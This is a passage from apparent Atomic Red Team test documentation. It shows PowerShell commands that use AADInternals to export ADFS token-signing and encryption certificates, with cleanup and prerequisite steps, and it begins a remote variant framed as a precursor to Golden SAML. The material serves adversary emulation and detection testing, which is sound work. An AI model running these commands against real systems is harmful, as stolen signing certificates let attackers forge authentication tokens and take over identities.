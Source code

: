 **Supported Platforms:** Windows


**auto_generated_guid:** 78e95057-d429-4e66-8f82-0f060c1ac96f






#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module AADInternals -Force
Export-AADIntADFSCertificates
Get-ChildItem | Where-Object {$_ -like "ADFS*"}
Write-Host "`nCertificates retrieved successfully"
```

#### Cleanup Commands:
```powershell
Remove-Item -Path ".\ADFS_encryption.pfx" -ErrorAction Ignore
Remove-Item -Path ".\ADFS_signing.pfx" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: AADInternals module must be installed.
##### Check Prereq Commands:
```powershell
if (Get-Module AADInternals) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AADInternals -Force
```




<br/>
<br/>

## Atomic Test #10 - ADFS token signing and encryption certificates theft - Remote
Retrieve ADFS token signing and encrypting certificates. This is a precursor to the Golden SAML attack (T1606.002). You must be signed in as a Domain Administrators user on a domain-joined computer.
Based on https://o365blog.com/post/adfs/ and https://github.com/fireeye/ADFSDump.

**Supported Platforms:** Windows


**auto_generated_guid:** cab413d8-9e4a-4b8d-9b84-c985bd73a442





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| adfs_service_account_name | Name of the ADFS service account | string | adfs_svc|
| replication_user | Username with replication rights. It can be the Domain Admin running the script | string | Administrator|
| replication_password | Password of replication_username | string | ReallyStrongPassword|
| adfs_server_name | Name of an ADFS server | string | sts.contoso.com|
